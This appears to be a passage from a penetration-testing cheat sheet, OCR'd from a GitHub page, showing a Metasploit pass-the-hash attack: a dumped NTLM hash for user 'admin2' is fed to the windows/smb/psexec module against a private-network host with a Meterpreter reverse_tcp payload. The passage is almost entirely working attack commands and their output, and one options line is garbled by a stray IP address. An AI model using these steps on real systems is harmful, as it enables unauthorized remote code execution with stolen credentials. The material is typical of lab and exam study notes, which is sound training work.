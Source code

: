 ```
# Login as user only with hashdump
# From this hashdump
# admin2:1000:aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7:::

msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target address range or CIDR identifier
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCR10.11.1.111TION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                 ADMIN$           yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(windows/smb/psexec) > set rhosts 10.10.0.100
rhosts => 10.10.0.100

msf5 exploit(windows/smb/psexec) > set smbuser admin2

smbuser => admin2

msf5 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

smbpass => aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7

msf5 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp

payload => windows/x64/meterpreter/reverse_tcp

```

### Scripts

#### Useradd
